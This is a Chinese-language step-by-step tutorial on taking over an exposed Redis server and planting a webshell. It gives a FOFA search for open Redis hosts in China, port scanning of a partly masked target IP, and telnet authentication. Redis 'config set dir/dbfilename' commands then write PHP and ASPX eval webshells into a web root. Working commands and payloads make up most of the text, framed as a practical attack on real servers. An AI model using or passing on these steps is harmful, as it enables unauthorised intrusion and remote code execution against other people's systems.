 https://fofa.so/

关键字检索：port="6379" && protocol==redis && country=CN

Redis 账号获取 webshell 实战

扫描某目标服务器端口信息

通过 nmap 对某目标服务器进行全端口扫描，发现该目标开放 Redis 的端口为 3357，默认端口为 6379 端口，再次通过 iis put scaner 软件进行同网段服务器该端口扫描，如图 3 所示，获取两台开放该端口的服务器。



扫描同网段开放该端口的服务器

使用 telnet 登录服务器

使用命令“telnet ip port”命令登录，例如 telnet 1**.**.**.78 3357，登录后，输入 auth 和密码进行认证。

查看并保存当前的配置信息

通过“config get命令”查看 dir 和 dbfilename 的信息，并复制下来留待后续恢复使用。

ssh-keygen -t rsa

config get dir

config get dbfilename

配置并写入 webshell

设置路径

config set dir E:/www/font

设置数据库名称

将 dbfilename 对名称设置为支持脚本类型的文件，例如网站支持 PHP，则设置 file.php 即可，本例中为 aspx，所以设置 redis.aspx。

config set dbfilename redis.aspx

设置 webshell 的内容

根据实际情况来设置 webshell 的内容，webshell 仅仅为一个变量，可以是 a 等其他任意字符，下面为一些参考示例。

set webshell "<?php phpinfo(); ?>"

//php查看信息

set webshell "<?php @eval($_POST['chopper']);?> "

//phpwebshell

set webshell "<%@ Page Language="J"%><%eval(Request.Item["c"],"unsafe");%>"

// aspx的webshell，注意双引号使用"

保存写入的内容

save

查看 webshell 的内容

get webshell

完整过程执行命令如图 4 所示，每一次命令显示“+OK”表示配置成功。

